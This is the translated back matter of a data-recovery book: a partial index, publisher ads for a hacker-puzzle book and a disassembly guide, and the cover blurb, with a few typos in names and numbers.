- `RAID 1+0`, 113
- `RAID 3`, 82
- `RAID 5`, 82
- `RAID` 控制器, 62, 323
- `RAID-0`, 232
- `RAID-1`, 232

数据包写入, 289
`PacketCD`, 288, 289
分页虚拟内存访问, 197
分区, 85
- 扩展的, 91
- 主, 91
- 表格, 18, 93
`Partition Magic`, 190
分区工具
- 标准的, 91
`PC` 模拟器, 109
`PC-3000`, 50, 52, 69, 72
`PCI`, 16
`PDF`, 125, 172

`RAW DAO` 模式, 261
原始读取错误率, 15
`READ_PORT_UCHAR`, 199
只读, 144
实际大小, 185
重定位扇区计数, 15
恢复控制台, 18, 24, 27, 34, 86, 121
- `FIXBOOT`, 121
独立磁盘冗余阵, 20, 62, 323
里德-所罗门码, 248, 298, 324
`ReiserFS`, 231, 237, 241
重解析点, 144
资源交换文件格式, 301
`RIFF`, 301
`ROM`, 8, 53, 69
`nio`, 288
`Easy CD Creator`, 256

`PE`:
- 文件头, 200
- 文件, 154
- 格式, 156
外围组件互连, 146
`Perl`, 213
`Phoenix`, 45
`PIO`, 51, 237
槽点 (Pits), 296
平台软件开发包, 145
`PleXWriter Premium`, 276
`P` 列表, 73
可移动执行文件, 154
`POSIX` 子系统, 148
`POST`, 88
电源管理器, 198
开机自检, 88

`R-Studio`, 180, 188, 190, 214
`R-Tools Technology`, 181
`Runtime` 磁盘管理器, 36
`Runtime` 软件, 34, 133
`Russianovich, Mark`, 21, 157, 176, 202
`Symantec`, 27
`Sysinternals`, 21
系统分区, 114

`S.M.A.R.T.`, 5, 15, 70
`$5`, 217
`Samsung`, 56, 57
`SAO`, 284, 291
`SATA`, 58, 61
`Scandisk`, 251
`SCSI`, 11, 58, 90, 110, 193, 234, 271, 278, 313
- 控制器, 60
`Seagate`, 56
扇区检查器, 34, 97, 116
`SecureROM`, 271
寻道错误率, 15
自我监控与报告技术, 5, 15, 70
串口 ATA, 58
会话, 284
`SetFilePointer`, 163
`SFC`, 279
`System Kit`, 46
`Softcc`, 177
`Software RAID`, 232
稀疏, 144
重试计数, 15
转动时间, 15
主轴, 81
`SpinRate`, 251
`SQL`, 189
`Star Force`, 270
`StarFleet`, 279
`Stellarinfo`, 45
流传输器, 252
条带, 114
超级视频 CD, 299
超级块, 207, 220
`SuSE 9.2`, 26

`TAO`, 284
`TCP/IP`, 34
`DK`, 298
临时, 144
`Tippach, Michael`, 203
`TOC`, 260, 262
- 虚拟的, 263
`Toshiba`, 251
轨道, 284
`Tacks`, 81
木马, 190

`UDF`, 284, 286, 291
- 驱动程序, 287
- 监控, 287
`UDMA`, 50, 51
- 模式, 237
`UFS`, 1, 26, 35, 217, 231, 237
`UFS2`, 218
`Ultra CRC` 错误率, 16
直接内存访问, 50, 51
未分配空间, 114
`Unformat` 工具
`Unicode`, 29
- 字符, 148, 149
通用磁盘格式, 284, 286, 291
`UNIX`, 26, 37, 89, 129, 193, 301
更新序列, 123
`USB`, 195, 278
用户目录, 150
用户文件, 150

`VAT`, 292
`VCN`, 139
`Verbatim`, 298
`Video CD`, 299, 302
虚拟分配表, 292
虚拟簇数, 139
虚拟机, 195
`Virtual PC`, 176
病毒, 190
`VMware`, 109, 176, 194
`Win2k.sys`, 200
`Win32`, 200
`Win32` 命名空间, 149
`Windows`, 1, 193, 197, 206
`Windows 2000`, 20, 25, 112, 125, 168, 197, 286, 291, 320
`Windows 2000/XP` 服务包
安装 CD, 24
分发版 CD, 25
`Windows 9`, 286
`Windows 9x`, 21, 27, 89, 109, 189, 203, 255, 291
`XDirectShow`, 302
`XFS`, 231, 237
`Yatsen, Sergey`, 52
`Zip` 磁盘, 109, 177
`Zip` 驱动器, 52


# 黑客谜题集

作者：Ivan Sklyarov (`ISBN 19317669451`, `$34.95`, 352页)，

## 面向 IT 专业的计算机谜题集

谜题和脑力激荡是训练逻辑的一种，并帮助开发人员、黑客和系统管理员发现常见 IT 问题的非传统解决方案。用户将学习如何在源代码中寻找漏洞、编写利用程序并解决非标准的编码任务和黑客谜题。书中包含了密码谜题、针对 Linux 和 Windows 黑客的谜题、编码谜题以及针对网页设计师的谜题。本书专为黑客、系统管理员、程序员、网页设计师、计算机安全专家以及任何参与疯狂的当代计算世界的人士编写。教师也可以使用这本书让学生的学习过程变得更有趣。

`Ivan Sklyarov` 是一位技术作家和 IT 技术专家。他曾担任《黑客杂志》（俄语版）“X-Puzzles”栏目的负责人。他还在为《Hooligan》俄罗斯杂志撰写计算机安全文章。`Ivan` 是一个幸运的人，因为他的工作就是他的爱好。这本书是他作为作家新身份的首次尝试。作者希望这次尝试能够成功，并且没有在写一本书后停止。

`CD-ROM` 包含了与黑客、加密、Linux 和 Windows 编程以及 Web 设计相关的谜题。

`A-LIST Publishing`
295 East Swesford Rd, PMB #285, Wayne, PA 19087
e-mail: mail@alistpublishing.com
www.alistpublishing.com
Fax: 702-977-5377


# 代码反汇：IDA Pro 和 SoftICE

作者：Vlad Pirogov (`ISBN 1931769516`, `$44.95`, 512页, 2005年12月)

本书描述了如何使用软件代码分析工具（如 `IDA Pro` 和 `SoftICE`）反汇编用高层语言编写的程序，并识别反汇代码中的不同元素，以便用更短的时间调试应用程序。还描述了汇编语言编程 (`MASM`) 的基础以及英特尔处理器的指令系统和格式。书中详细考虑了软件代码反汇编、分析和调试的各个方面，并提供了分析可执行代码时现代反汇编器和调试器的概述。书中还包含了使用这些工具的基础知识及其工作原理，并重点关注分析软件代码以及识别编写这些代码的语言的主要结构。

`Vlad Pirogov` 是 Windows 高性能应用开发专家，也是《汇编编程大师教程》（The Assembly Programming Master Book）的作者。

`CD` 内容提供了可以立即加载到相应编程环境中的源代码。对于每个程序，都有一个即用的执行模块。

`A-LIST Publishing`
295 East Swedenford Rd, PMB #285, Wayne, PA 19087
e-mail: alistpublishing.com
www.alistpublishing.com
Fax: 702-977-5377

警告！
如果 `CD` 丢失或损坏，我们将向您收取书籍费用。在支付费用之前，您将无法使用您的卡。

# 数据恢复
## 技巧与解决方案：WINDOWS、LINUX 和 BSD

针对意外数据丢失的自动和手动恢复的高级技术

这本全面的手册涵盖了系统管理员必须精通的三个领域以成功恢复数据：最流行文件系统的结构和工作原理、自动数据恢复技术，以及在数据完全销毁情况下使用的手动恢复技术。书中描述了从 `Windows`、`BSD` 和 `Linux` 文件系统中的硬盘和光存储设备中恢复数据的方法，还介绍了自动恢复工具、对 `ext2/ext3` 分区和 `NTFS` 分区上删除文件的手动和自动恢复、已格式化的 `NTFS` 分区以及删除的 `UFS/FFS` 文件的恢复、`RAID` 数据恢复、物理损坏后的介质修复以及数据丢失防护。


## 关于作者

`Kris Kaspersky`。他是《黑客反汇编深度揭秘》（Hacker Disassembling Uncovered）、《黑客调试深度揭秘》（Hacker Debugging Uncovered）、《代码优化：有效的内存使用》（Code Optimization: Effective Memory Usage）、《Shellcoder 编程深度揭秘》（Shellcoder's Programming Uncovered）以及《CD 破解深度揭秘：防止未经授权的 CD 拷贝》（CD Cracking Uncovered: Protection against Unsanctioned CD Copying）等书籍，以及关于黑客、反汇编和代码优化各个方面的文章。他处理过许多与安全和系统编程的问题，包括编译器开发、优化技术、机制研究、实时操作系统内核创建、软件保护以及反病毒软件的创建。

- 配套 `CD` 包含了书中所有示例的源代码、高质量彩色插图和实用工具。

类别：信息技术，通用
级别：中级到高级


`ISBN 1-931769-56-7`
美国 `$39.95` 加拿大 `$53.95`

mail@alistpublishing.com
http://www.alistpublishing.com
所有商标和服务标记均为其所有者的财产。
美国打印。

```
